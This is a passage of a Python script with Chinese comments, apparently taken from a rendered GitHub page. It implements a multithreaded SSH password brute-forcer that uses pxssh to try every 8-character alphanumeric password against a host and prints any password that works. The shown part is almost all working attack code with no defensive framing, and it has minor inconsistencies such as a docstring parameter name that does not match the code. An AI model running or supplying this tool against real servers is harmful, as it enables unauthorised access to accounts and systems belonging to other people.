```python
    :param host: server host
    :param user: 账户名
    :param passwd: 登录密码
    :return: child
    '''
    try:
        pxssh().login(host, user, password)
        print('Password found: ' + password)
    except Exception as e:
        pass
    finally:
        thread_lock.release()


def generate_password_dict(password_length):
    '''
    生成指定长度的密码字典
    :param length: 密码长度
    :return:
    '''
    # words = 'a..zA..Z0..9'
    words = ''.join([str(i) for i in range(0, 10)] + [chr(i) for i in range(ord('a'), ord('a') + 26)] + \
                    [chr(i) for i in range(ord('A'), ord('A') + 26)])

    passwords = itertools.product(words, repeat=password_length)
    # with open('password.txt', 'w') as f:
    #     for password in passwords:
    #         f.write(''.join(password) + '\n')
    return passwords


def violent_example():
    '''
    生成密码, 多线程执行登录
    :return:
    '''
    index = 0
    for p in generate_password_dict(8):
        password = ''.join(p)
        thread_lock.acquire()
        thread = threading.Thread(target=ssh_login, args=(host, user, password))
        thread.start()
        index += 1
        if index % 10 ** 4 == 0:
            print("%s password failed" % index)


if __name__ == '__main__':
    violent_example()

```
